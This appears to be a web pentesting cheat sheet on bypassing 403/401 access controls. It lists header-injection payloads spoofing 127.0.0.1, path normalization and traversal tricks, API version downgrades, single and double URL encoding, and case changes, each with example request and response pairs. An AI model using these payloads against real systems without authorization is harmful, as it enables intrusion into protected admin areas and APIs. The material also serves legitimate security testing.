 ### Header Injection
```
X-Forwarded-Host: 127.0.0.1 >> 200 OK
```
Try this wordlist:
```txt
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```
### Exploiting Path Normalization
```
/secure/admin >> 403 Access Denied
/secure/./admin >> 200 OK
```
### Path traversal
```
/admin >> 403 Access Denied
/secure/../admin >> 200 OK
```
### api version changing
```
/v2/users/1337 >> Access Denied
/v1/users/1337 >> 200 OK
/v1.1/users/1337 >> 200 OK
```
### HTML encoding
```
/hidden >> 403 Access Denied
/hidde%6e >> 200 OK
```
If it not works, try double encoding.
```
/hidde%256e > 200 OK
```
### Case changing
```
/admin >> 403 Access Denied
/admiN >> 200 OK
```

## More Info

[Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/403-and-401-bypasses.html)
